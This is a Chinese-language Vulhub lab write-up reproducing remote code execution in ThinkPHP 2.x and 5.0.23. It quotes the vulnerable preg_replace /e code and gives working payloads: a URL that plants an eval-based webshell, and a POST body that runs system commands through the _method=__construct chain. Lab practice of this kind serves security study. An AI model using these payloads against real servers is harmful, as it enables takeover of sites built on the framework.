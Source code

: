 # vulhub靶场练习

## thinkphp/2-rce

> 任意代码执行漏洞

![image-20220306130914293](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061309458.png)

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)\/([^,\/]+)@e', '$var[\'\\1\']="\\2";', implode('/',$paths));
```

输入参数被插入双引号中执行，造成任意代码执行漏洞

### 复现

#### 1、启动服务

![image-20220306135951679](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061359775.png)

#### 2、访问url

```
http://212.129.238.18:8080/?s=/index/index/name/${@eval($_POST[1])}
```

![image-20220306142052656](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061420764.png)

### 3、使用webshell工具连接

![image-20220306142120339](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061421409.png)

## thinkphp/5.0.23-rce

> **远 程 代 码 执 行 漏 洞**

ThinkPHP 是一款运用极广的 PHP 开发框架。其 5.0.23 以前的版本中，获取 `method` 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法并构造利用链，从而导致远程代码执行漏洞。

### 1、测试漏洞是否存在

访问`/index.php?s=captcha`页面

使用 Google Chrome 的 HackBar 插件发送 POST 请求：

```shell
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

![image-20220306143350815](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061433896.png)
